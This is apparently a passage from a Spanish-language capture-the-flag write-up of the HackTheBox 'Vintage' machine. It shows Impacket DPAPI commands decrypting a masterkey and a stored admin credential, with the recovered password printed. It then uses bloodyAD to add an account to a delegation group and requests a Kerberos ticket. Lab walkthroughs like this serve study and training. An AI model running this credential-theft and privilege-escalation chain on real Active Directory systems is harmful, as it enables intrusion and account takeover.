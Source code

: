 download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b





python3 dpapi.py masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a





python3 dpapi.py credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312


ahora tenemos contraseña para c.neri_adm


ahora agregamos a c.neri_adm a DELEGATEADMINS

bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d "VINTAGE.HTB" -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k add groupMember "DELEGATEDADMINS" "SVC_SQL"
[+] SVC_SQL added to DELEGATEDADMINS

python3 getTGT.py vintage.htb/c.neri:Zer0the0ne -dc-ip dc01.vintage.htb                                                    
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri.ccache

export KRB5CCNAME=c.neri.ccache 
